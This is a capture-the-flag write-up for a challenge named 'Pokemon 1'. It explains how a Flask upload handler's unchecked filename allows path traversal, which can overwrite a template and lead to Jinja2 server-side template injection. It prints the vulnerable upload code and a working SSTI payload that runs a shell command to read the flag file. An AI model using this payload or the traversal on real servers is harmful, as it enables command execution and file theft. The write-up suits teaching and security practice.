 # Pokemon 1
`Clone2Own`
We note that in the `app.py` file which is the main flask application, the following code handles the upload functionality:
```python
@app.route('/uploadfile', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        print(request)

        if request.files.get('file'):
            # read the file
            file = request.files['file']

            # read the filename
            filename = file.filename

            # create a path to the uploads folder
            filepath = os.path.join(app.config['UPLOAD_FOLDER'], filename)

            # Save the file to the uploads folder
            file.save(filepath)
```
This functionality checks server-side, if a POST request is being sent, and if it is it looks for the parameter `file`, which it will add to the result of `os.path.join`.  Doing a simple test:
```python
>>> os.path.join("/home/cave", "hello")
'/home/cave/hello'
>>> os.path.join("/home/cave", "../hello")
'/home/cave/../hello'
```
We can see that we can have these `../` which will allow for path traversal. This means we can save files in other folders. Now what to we do with this? Well we note the following code also in `app.py`:
```python
@app.route('/')
def home():
    return render_template('index.html')
```
It renders the template. We can do server-side template injection here. Searching for `Jinja2 SSTI` online brings us to `Hacktricks` and I used something like this payload:
```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat /flag*").read() }}
```

Flag:
`TDCNET{POKEMON_DU_SKAL_FANGE_DEEEEEEM_DET_KRU+00E6VER_BU+00E5DE_MOD_OG_HELD}`
